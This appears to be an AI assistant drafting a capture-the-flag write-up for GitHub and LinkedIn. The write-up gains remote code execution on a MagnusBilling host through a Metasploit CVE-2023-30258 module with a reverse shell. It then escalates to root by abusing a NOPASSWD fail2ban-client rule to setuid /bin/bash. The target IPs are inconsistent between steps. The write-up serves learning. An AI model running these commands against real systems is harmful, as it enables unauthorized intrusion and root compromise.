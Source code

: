 Absolutely! I can help you draft a **professional documentation** about the **CFT (Cybersecurity Fault Tree / Capture-the-Flag?)** for GitHub and LinkedIn. Since you want it to be shareable and polished, I’ll structure it like a **technical walkthrough**, highlighting your methodology, findings, and learning points. Here's a draft you can use:

---

# Capture-the-Flag (CFT) Exploitation Documentation

**Author:** \[Goodluck Temilolu Oyebisi ]
**Date:** August 2025
**Platform:** Linux / Kali / Metasploit / Python3 / Fail2Ban

---

## Overview

This documentation presents a step-by-step breakdown of a **realistic penetration test scenario** on a vulnerable MagnusBilling instance, culminating in **privilege escalation to root**. It demonstrates careful exploitation while following ethical guidelines for legal testing environments.

---

## Target

* **IP:** 10.10.57.157
* **Services Identified:** HTTP (mbilling web app), Asterisk Call Manager (TCP 5038)
* **Tools Used:** Metasploit, SQLMap, Python, Fail2Ban

---

## Step 1: Reconnaissance

1. Enumerated web endpoints using **SQLMap** to test for SQL injection:

   ```bash
   sqlmap -u "http://10.10.30.141/mbilling" --crawl=3 --batch --random-agent
   ```
2. Discovered login endpoint using HTTP POST request:

   ```http
   POST /mbilling/index.php/authentication/login
   ```
3. Identified Asterisk Call Manager on **port 5038** via Telnet.

---

## Step 2: Exploitation

### 2.1 Remote Code Execution (RCE)

* Used Metasploit module: `exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258`
* Configured reverse TCP payload:

  ```text
  RHOST = 10.10.57.157
  LHOST = 10.9.1.109
  ```
* Confirmed vulnerability via **command injection test**.
* Spawned a Meterpreter session, then dropped into a shell:

  ```bash
  meterpreter > shell
  ```

---

## Step 3: Privilege Escalation via Fail2Ban Misconfiguration

1. Checked sudo privileges:

   ```bash
   sudo -l
   ```

   Output showed `NOPASSWD` for `/usr/bin/fail2ban-client`.

2. Exploited Fail2Ban jail `asterisk-iptables`:

   ```bash
   sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
   sudo /usr/bin/fail2ban-client set asterisk-iptables banip 8.8.8.8
   ```

3. Elevated privileges by spawning a **root shell**:

   ```bash
   /bin/bash -p
   ```

---

## Step 4: Post-Exploitation Notes

* Verified root access:

  ```bash
  whoami  # root
  ```
* Highlighted **setuid-based escalation** vulnerability due to misconfigured Fail2Ban jail.
* Emphasized **ethical testing principles**: all exploits performed on authorized lab environments.

---

## Key Takeaways

1. **Check for misconfigured sudo privileges** on automated tools like Fail2Ban.
2. Combining **RCE with sudo misconfigurations** can yield root access quickly.
3. Ethical and controlled testing environments are essential for learning and responsible disclosure.

---

## Tools & References

* [Metasploit Framework](https://metasploit.help.rapid7.com/docs)
* [SQLMap](https://sqlmap.org/)
* [Fail2Ban](https://www.fail2ban.org/)

---

**Disclaimer:** This documentation is intended for **educational purposes** and testing in **authorized environments only**. Unauthorized exploitation is illegal and unethical.

---

I can also create a **shorter, LinkedIn-friendly version** highlighting the achievement and skills used, making it more shareable to a professional audience.

Do you want me to draft that LinkedIn version as well?
